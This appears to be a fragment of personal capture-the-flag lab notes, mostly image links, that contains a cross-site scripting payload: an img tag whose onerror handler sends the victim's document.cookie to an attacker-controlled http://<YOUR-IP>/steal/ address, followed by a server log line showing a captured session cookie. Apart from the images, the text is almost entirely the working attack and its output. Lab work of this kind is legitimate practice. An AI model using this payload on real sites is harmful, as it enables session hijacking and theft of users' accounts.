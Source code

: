 
![[IMG-20251019010816231.png]]

![[IMG-20251020020106833.png]]

Payload: 
```javascript
<img src=1 onerror="document.location='http://<YOUR-IP>/steal/'+ document.cookie">
```
![[IMG-20251019010758982.png]]
```bash
10.10.11.88 - - [20/Oct/2025 01:59:12] "GET /session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aPV7TA.5f9IJS6TqVJVOBtjrOaf32LME_k HTTP/1.1" 404 -
```

![[IMG-20251020020036016.png]]

![[IMG-20251020020120150.png]]

![[IMG-20251020021551687.png]]

